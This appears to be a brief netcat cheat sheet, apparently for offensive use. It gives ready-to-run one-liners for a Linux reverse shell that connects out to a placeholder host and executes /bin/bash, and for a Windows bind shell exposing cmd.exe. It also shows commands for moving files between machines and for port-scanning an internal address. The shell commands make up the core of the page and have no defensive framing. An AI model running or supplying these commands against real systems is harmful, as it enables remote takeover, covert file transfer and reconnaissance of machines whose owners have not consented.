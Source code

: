 #### reverse shell (linux)

```nc x.x.x.x 6969 -e /bin/bash```
-----


#### bind shell (windows)

```nc -lvp 4444 -e cmd.exe```
-----


#### transferring files

*On receiving end:*

```nc -l -p 1234 > out.file```

*On the sending end:*

```nc -w 3 [destination] 1234 < out.file```
-----


#### port scan

```nc -z -v 192.168.1.103 1-443```
-----
